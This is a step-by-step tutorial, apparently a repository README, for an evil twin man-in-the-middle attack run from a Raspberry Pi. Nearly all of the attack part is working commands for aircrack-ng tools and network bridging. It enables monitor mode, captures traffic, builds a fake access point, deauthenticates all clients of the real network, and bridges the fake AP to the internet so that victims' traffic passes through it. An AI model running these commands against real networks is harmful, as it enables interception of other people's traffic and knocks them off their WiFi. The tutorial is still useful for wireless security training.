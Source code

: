 Now we want to get started learning some simple WiFi hacks.

We will:

1. Enable our WiFi adapter for monitoring mode.
2. Perform a simple Evil twin attack which is a kind of Man in the middle attack that will allow your Raspberry Pi to act as an AP to monitor information.

Getting Started:
  1. Plug in and turn on your Raspberry Pi
  2. You will need to install bridge utils.
    - After you've SSH'd into your Raspberry pi, run:
      `apt-get install bridge-utils`

Steps:

  1. To show available wireless interfaces run:
    `iwconfig`

    <img src="img/iwconfig.jpg"/>

  2. Start monitor mode on the available WiFi device.
    Run:
      `airmon-ng start wlan1`

    Also make note of any alerts like:
      `Found 3 processes that could cause trouble.`

      <img src="img/airmonstart.jpg"/>

      "Kill" those processes, they may interfere they may not, you will need to restart the dhclient later:
        `airmon-ng check kill`
      Then re-run:
        `airmon-ng start wlan1`
      <img src="img/airmonstart2.jpg"/>
  3. Capture packets from the air using the device you put in monitor mode.
      - Run:
        `airodump-ng wlan1mon`

        <img src="img/capturepackets.jpg"/>

      - After about half a minute enter `control + c` and open a new terminal

      - Open an SSH session with your Raspberry Pi in that terminal like you did at the beginning.

    4. Create the twin

  Run:
          `airbase-ng -a [BSSID] --essid <ESSID here> -c <channel here> <interface name>`
5. Deauthenticate the client
For this I am using my phone as the client that is the target of the attack.
          Run:

              `aireplay-ng --deauth 0 -a [BSSID] wlan1mon --ignore-negative-one`

"0" sets the time interval for sending de-authentication requests. 0 = very fast, 1 = 1/second, 2 = 1 every 2 seconds, etc.

This will disconnect all clients from the network

  <img src="img/deauth.jpg"/>

  6. Give the "evil twin" internet access
    This will provide internet access to the fake Access Point and allow clients to connect thinking they're accessing the real Access Point.

        Run:
          `brctl addbr evil`
        This creates a bridge.

        `brctl addif evil eth0`
        and
        `brctl addif evil at0`

        are the two interfaces being bridged.

        "eth0" is the the internet connection on my Raspberry Pi

        and "at0" is the interface created by airmon-ng that clients will connect to the internet through.

        Next you want to assign IP's to the interfaces with:
        `ifconfig eth0 0.0.0.0 up`
        `ifconfig at0 0.0.0.0 up`

        Bring up the evil interface:
        `ifconfig evil up`

        Auto configure DHCP settings:
        `dhclient evil &`

        This completes the set up for the attack. You can see my phone connecting to the "Evil twin"
<img src="img/phone.jpg"/>
